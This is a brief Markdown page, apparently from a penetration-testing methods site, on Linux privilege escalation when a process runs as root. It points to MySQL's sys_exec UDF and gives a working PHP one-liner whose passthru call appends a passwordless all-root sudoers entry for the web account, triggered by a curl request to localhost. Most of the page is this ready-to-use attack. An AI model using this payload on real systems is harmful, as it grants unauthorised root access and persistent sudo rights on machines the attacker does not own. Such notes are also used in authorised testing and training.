 ```yaml
---
title: Process Running As Root
parent: Method (Linux)
layout: default
nav_order: 8
---
```


Can first test using `ps -aux | grep servicename`

## MySQL
sys_exec function with lib_mysqludf_sys.so. Refer to MySQL/MariaDB Method 2

## Web
1. If web service has write access as root, can abuse that by running the following file (change www-data to the web account, usually correct):
   `echo "<?php echo 'hello';passthru('echo \'www-data ALL=(root) NOPASSWD: ALL\' >> /etc/sudoers'); ?>" > tryroot.php`
2. Subsequently run curl -v http://localhost:80/tryroot.php
3. Then sudo as www-data.